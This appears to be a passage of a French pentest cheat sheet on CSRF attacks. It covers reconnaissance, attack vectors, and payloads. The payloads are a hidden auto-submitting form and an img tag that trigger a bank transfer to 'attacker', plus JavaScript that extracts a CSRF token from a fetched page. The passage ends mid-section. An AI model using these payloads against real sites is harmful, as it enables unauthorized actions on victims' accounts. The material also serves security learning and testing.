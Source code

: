 # CSRF et Attaques Cross-Site

## &#x20;<mark style="color:red;">CSRF et Attaques Cross-Site</mark>

### <mark style="color:blue;">🎯 Méthodologie Générale CSRF</mark>

#### 1. Reconnaissance

* **Analyser les protections** : Tokens CSRF, SameSite cookies, headers Referer/Origin
* **Identifier les actions sensibles** : Changement de mot de passe, transferts, validation de comptes
* **Tester les méthodes HTTP** : GET/POST acceptées, override de méthodes
* **Chercher les points d'injection** : Pages de contact, commentaires, profils

#### 2. Vecteurs d'attaque

* **Formulaires cachés** dans emails/pages web
* **Balises img/script** pour requêtes GET
* **WebSocket hijacking** si pas de protection origine
* **Injection via contact/support** pour cibler les admins

### <mark style="color:blue;">🚨 Types d'Attaques CSRF</mark>

#### 1. CSRF Basique (Sans Protection)

**Contexte** : Aucun token, pas de vérification Origin/Referer

```html
<!-- Via formulaire caché -->
<form action="https://bank.com/transfer" method="POST" style="display:none">
  <input type="hidden" name="amount" value="1000">
  <input type="hidden" name="toAccount" value="attacker">
</form>
<script>document.forms[0].submit();</script>

<!-- Via image (GET seulement) -->
<img src="https://bank.com/transfer?amount=1000&to=attacker" width="1" height="1">
```

#### 2. CSRF avec Token Stealing

**Contexte** : Token CSRF présent mais extractible

**Étape 1 - Récupération du token** :

```javascript
// Requête AJAX pour récupérer la page avec le token
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://target.com/profile", false);
xhr.send();

// Extraction du token (regex pour hash MD5 32 chars)
var token = xhr.responseText.match(/[abcdef0123456789]{32}/)[0];
```
